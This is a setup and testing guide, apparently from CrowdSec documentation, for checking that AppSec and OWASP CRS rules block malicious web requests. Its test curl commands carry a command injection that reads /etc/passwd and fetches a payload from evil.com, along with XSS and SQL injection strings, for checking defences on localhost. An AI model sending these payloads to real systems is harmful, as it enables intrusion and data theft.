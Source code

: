 ### Check Installation

Verify that both configurations are loaded:

```bash title="Check AppSec configurations"
cscli appsec-configs list
```
Should show:
- crowdsecurity/appsec-default
- crowdsecurity/crs

```bash title="Check scenarios"
cscli scenarios list | grep appsec
```
Should show:
- crowdsecurity/crowdsec-appsec-outofband

### Check AppSec Status

```bash title="Check that AppSec is running"
cscli metrics
```
*Look for appsec metrics in the output*

## Testing - CrowdSec Vpatch

If CrowdSec vpatch rules are properly enabled, the following request should return a 403:

```bash
TARGET=localhost
curl -I ${TARGET}'/.env'
```


## Testing - OWASP CRS

:::warning
Those requests are meant to emulate malevolent requests that will be catched by OWASP CRS.  
Don't lock yourself out if CrowdSec or any other security rule processor applies a ban uppon the following:
:::

```bash
TARGET=localhost
curl -I  ${TARGET}'/?x=A";cat+/etc/passwd;wget+http://evil.com/payload'
curl -I  ${TARGET}'/?x=A";cat+/etc/passwd;wget+http://evil.com/payload'
curl -I  ${TARGET}'/?x=A"<script>alert(1)</script>'
curl -I  ${TARGET}'/?x=A"<script>alert(1)</script>'
curl -I  ${TARGET}'/?x=A"+OR+"1"="1"+union+select+"fooobar","foo'
curl -I  ${TARGET}'/?x=A"+OR+"1"="1"+union+select+"fooobar","foo'
```

Uppon triggering those, you should see in CrowdSec logs:

```bash
time="2025-08-22T11:39:50+02:00" level=info msg="Ip xxx performed 'crowdsecurity/crowdsec-appsec-outofband' (6 events over 65.915093ms) at 2025-08-22 09:39:50.392681747 +0000 UTC"
time="2025-08-22T11:39:51+02:00" level=info msg="(5cf8aff523424fa68e9335f28fec409aIfHabI3W9GsKHzab/crowdsec) crowdsecurity/crowdsec-appsec-outofband by ip xxx : 4h ban on Ip xxx"
```
